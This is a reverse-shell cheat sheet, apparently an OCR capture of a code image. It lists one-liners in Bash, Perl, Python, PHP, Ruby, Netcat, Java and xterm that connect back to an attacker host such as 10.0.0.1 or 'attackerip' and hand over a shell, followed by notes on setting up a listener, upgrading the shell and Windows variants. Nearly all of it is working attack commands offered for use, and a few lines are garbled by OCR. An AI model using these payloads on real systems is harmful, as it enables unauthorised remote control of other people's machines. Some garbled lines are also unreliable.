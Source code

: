 Bash  
Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):  
  
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1  
PERL  
Here’s a shorter, feature-free version of the perl-reverse-shell:  
  
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'  
There’s also an alternative PERL revere shell here.  
  
Python  
This was tested under Linux / Python 2.7:  
  
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  
PHP  
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…  
  
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'  
If you want a .php file to upload, see the more featureful and robust php-reverse-shell.  
  
Ruby  
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'  
Netcat  
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.  
  
nc -e /bin/sh 10.0.0.1 1234  
If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:  
  
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f  
Java  
r = Runtime.getRuntime()  
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])  
p.waitFor()  
[Untested submission from anonymous reader]  
  
xterm  
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.  
  
xterm -display 10.0.0.1:1  
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):  
  
Xnest :1  
You’ll need to authorise the target to connect to you (command also run on your host):  
  
xhost +targetip  
  
# path to reverse shells on kali linux  
/usr/share/webshell/php  
  
# create reverse shell  
# nc: listening host  
nc -lvp 4444  
# nc: Linux reverse shell  
nc 10.0.0.1 1234 -e /bin/sh  
  
# nc: Windows reverse shell  
nc 10.0.0.1 1234 -e cmd.exe  
  
# nc: Netcat workaround when -e option not possible  
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f  
  
# nc: target machine (windows)  
nc -nv ipAddress 4444 -e cmd.exe  
  
# nc: target machine (unix)  
nc -nv ipAddress 4444 -e /bin/sh  
  
# python: upgrade a netcat shell                                                             
python -c 'import pty; pty.spawn("/bin/bash")'  
  
# move the reverse shell into the background  
<Ctrl-Z>  
  
# move the reverse shell into the foreground  
fg <enter><enter>  
  
# perl: shell  
perl -e 'use Socket; $i="10.0.0.1"; $p=1234; socket(S,PF_INET, SOCK_STREAM, getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))) { open(STDIN,">&S") ; open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh - i");};'  
  
# perl: Perl without /bin/sh  
perl -MIO -e '$p=fork;exit,if($p);$c=new  
IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~-fdopen($c,w) ;system $_i while<>;'  
  
# perl: Windows  
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w) ; system$_while<>;'  
  
# python  
python -c 'import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.0.0.1", 1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);  
p=subprocess.call(["/bin/sh","-i]);'  
  
# Bash  
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1  
  
# Java  
r = Runtime.getRuntime()  
p = r.exec( ["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])  
p.waitFor()  
  
# PHP  
php -r '$sock=fsockopen("10.0.0.1", 1234) ; exec("/bin/sh -i <&3 >&3 2>&3");'  
  
# Ruby  
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i; exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'  
  
# Ruby without /bin/sh  
by -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd, "r"){|io|c.print io.read} end'  
  
# Ruby for Windows  
ruby -rsocket -e  
'c=TCPSocket.new("attackerIp","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'